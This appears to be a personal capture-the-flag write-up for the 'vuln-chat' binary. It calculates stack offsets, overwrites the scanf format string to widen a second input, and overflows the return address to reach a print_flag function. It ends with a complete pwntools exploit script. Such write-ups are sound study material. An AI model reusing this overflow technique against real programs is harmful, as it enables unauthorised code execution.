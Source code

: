 ![[vuln-chat]]
### Recon

![[Pasted image 20240507232048.png]]
### Walkthrough

- ![[Pasted image 20240507234651.png]]
- we can see that 2 inputs are getting using scanf usrname and pass
- fmt variable is format specifier for scanf says %30s![[Pasted image 20240507234853.png]]
- stack layout ![[Pasted image 20240507235015.png]]

- another intresting function at 0804856b ![[Pasted image 20240507235128.png]] 
### Finding Vulnerability

- as per program calls first username is got as input and then pass
- by BOF we can overwrite fmt to higher size so that for pass we can get much size
- using pass BOF we can catt print flag function

### Finding Offset
- pass can store `0x31 - 0x1d = 20` we have 10 byte extra to overflow but the offset between RIP and second input is more 
- usrname can store `0x1d - 0x9 = 20` we have 10 byte extra using this we can overwrite fmt and get more input for second variable
- ![[Pasted image 20240508000654.png]]
- let us find offset between second input and RIP ![[Pasted image 20240508000901.png]]
- ![[Pasted image 20240508000927.png]]

- offset is  ==0xffffcefc - 0xffffcecb = 49== we have only 10 bytes extra so
- offset between first input and fmt is ==0xffffcef3 - 0xffffcedf = 20==




>using first input overwrite fmt from %30 to %99 because our offset between second input stored in stack and RIP is 49
> 
  using second input by padding 49 overwrite RIP with Printflag address

### Payload

```
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print target.recvuntil("username: ")

# Form the first payload to overwrite the scanf format string
payload0 = ""
payload0 += "0"*0x14 # Fill up space to format string
payload0 += "%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print target.recvuntil("I know I can trust you?")

# From the second payload to overwrite the return address
payload1 = ""
payload1 += "1"*0x31 # Filler space to return address
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()

```
